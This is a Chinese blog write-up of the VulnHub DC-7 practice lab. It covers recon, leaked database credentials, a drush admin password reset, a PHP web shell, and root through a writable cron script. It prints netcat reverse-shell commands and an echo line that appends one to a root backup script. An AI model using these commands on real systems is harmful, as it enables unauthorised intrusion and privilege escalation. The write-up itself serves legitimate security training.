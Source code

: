 ```yaml
---
title: DC-7复现
permalink: /archives/54139/
createTime: 2022-12-01 09:13:00
tags: 
  - vulnhub
  - 渗透测试
---
```


# DC-7复现

## 描述

> DC-7是另一个专门建造的易受攻击的实验室，旨在获得渗透测试领域的经验。
>
> 虽然这不是一个过于技术性的挑战，但它并不容易。
>
> 虽然这是早期DC版本的逻辑进展（我不会告诉你是哪一个），但涉及一些新概念，但你需要自己弄清楚这些概念。:-)如果您需要诉诸暴力破解或字典攻击，您可能不会成功。
>
> 你需要做的，是“跳出框框”思考。
>
> 哇 盒子的“外面”。:-)
>
> 这个挑战的最终目标是获得根并阅读唯一的标志。
>
> Linux 技能和对 Linux 命令行的熟悉是必须的，对基本渗透测试工具的一些经验也是必须的。
>
> 对于初学者来说，谷歌可以提供很大的帮助，但你总是可以在@DCAU7发推文给我寻求帮助，让你再次前进。但请注意：我不会给你答案，相反，我会给你一个关于如何前进的想法。

## 信息收集

确定目标的**IP**，以及开放的端口

`nmap 192.168.71.0/24`

![image-20221201092525322](https://img.crzliang.cn/img/image-20221201092525322.png)

访问80端口上的服务

![image-20221201093011739](https://img.crzliang.cn/img/image-20221201093011739.png)

机翻

![image-20221201093141461](https://img.crzliang.cn/img/image-20221201093141461.png)

根据这个提示，说不是技术性的问题，那就有可能是找线索，然后可以发现在脚标处有一个@DC7USER，用谷歌搜索进到了他的GitHub主页，在他的staffdb仓库中的config.php里发现了一个账号和密码，还有数据库的名字

```php
<?php
	$servername = "localhost";
	$username = "dc7user";
	$password = "MdR3xOgB7#dW";
	$dbname = "Staff";
	$conn = mysqli_connect($servername, $username, $password, $dbname);
?>
```

![image-20221201093608772](https://img.crzliang.cn/img/image-20221201093608772.png)

## 漏洞利用

### 账号密码泄露利用

直接在网页登录，是失败的

![image-20221201093747135](https://img.crzliang.cn/img/image-20221201093747135.png)

那就换一个思路，我们最开始扫描机器的时候，发现其开启了22端口，那就尝试ssh登录

```bash
ssh dc7user@192.168.71.129
```

登录成功

![image-20221201094354750](https://img.crzliang.cn/img/image-20221201094354750.png)

在当前目录下，发现了两个文件夹**backups**和**mbox**，其中backups是有两个gpg结尾的文件，经过查阅得知这是一种加密文件的后缀；在mbox里记录着root的定时任务，其项目位于`/opt/scripts/backups.sh`

![image-20221201095704000](https://img.crzliang.cn/img/image-20221201095704000.png)

查看**backups.sh**里的内容

![image-20221201095822202](https://img.crzliang.cn/img/image-20221201095822202.png)

因为是一个shell脚本，那就看是否够权限写入，并执行进行反弹shell

`ls -l`

发现并没有权限

![image-20221201100418322](https://img.crzliang.cn/img/image-20221201100418322.png)

### drush修改密码

在**backups.sh**里，我们看到了**drush**命令，进行简单的了解后发现可以利用

drush部分命令：

```
查看用户信息
drush user-information admin	//查询是否存在admin
修改密码
drush upwd admin --password="1234"		//修改admin密码为1234
```

存在admin用户

![image-20221201101409140](https://img.crzliang.cn/img/image-20221201101409140.png)

admin密码修改成功

![image-20221201101440524](https://img.crzliang.cn/img/image-20221201101440524.png)

成功登录

![image-20221201101512704](https://img.crzliang.cn/img/image-20221201101512704.png)

### 反弹shell

这个站的cms是Drupal8，它是不支持php代码的，需要添加模块

<!-- ![image-20221201101820426](C:\Users\alpha\AppData\Roaming\Typora\typora-user-images\image-20221201101820426.png) -->

位置：**manage**->**extend**->**install new module**

可以选者在**intsall from a url**里面填入下载地址进行安装，也可以下载之后选择**Upload a module or theme archive to install**导入安装，我因为url导入不成功，就用上传的方式

下载地址：

```url
https://ftp.drupal.org/files/projects/php-8.x-1.x-dev.tar.gz
```

![image-20221201102310752](https://img.crzliang.cn/img/image-20221201102310752.png)

回退到Extend界面进行安装

![image-20221201102628741](https://img.crzliang.cn/img/image-20221201102628741.png)

然后进到content界面直接修改随便一个文件，写入一句话木马

![image-20221201102938629](https://img.crzliang.cn/img/image-20221201102938629.png)

连接成功，利用蚁剑的虚拟终端进行反弹shell

![image-20221201103452414](https://img.crzliang.cn/img/image-20221201103452414.png)

```
nc -lvvp 1234	//在攻击机上执行
nc -e /bin/sh 192.168.71.128 1234	//在受害机上执行
python -c 'import pty; pty.spawn("/bin/bash")'	//交互式shell
```

![image-20221201103751736](https://img.crzliang.cn/img/image-20221201103751736.png)

## 提权

之前的提权方式都用不了，就只能换个思路，前面提到想用**backups.sh**进行反弹shell，发现www-data用户是有写入的权限的，那就同理利用其进行提权

可以直接在蚁剑里找到backups.sh直接加上`nc -e /bin/sh 192.168.71.128 1234`

![image-20221201144758579](https://img.crzliang.cn/img/image-20221201144758579.png)

也可以利用echo进行写入

```bash
echo 'nc -e /bin/sh 192.168.71.128 1234'>>/opt/scripts/backups.sh
```

```bash
cd ~
cat theflag.txt
```

## flag

![image-20221201144633041](https://img.crzliang.cn/img/image-20221201144633041.png)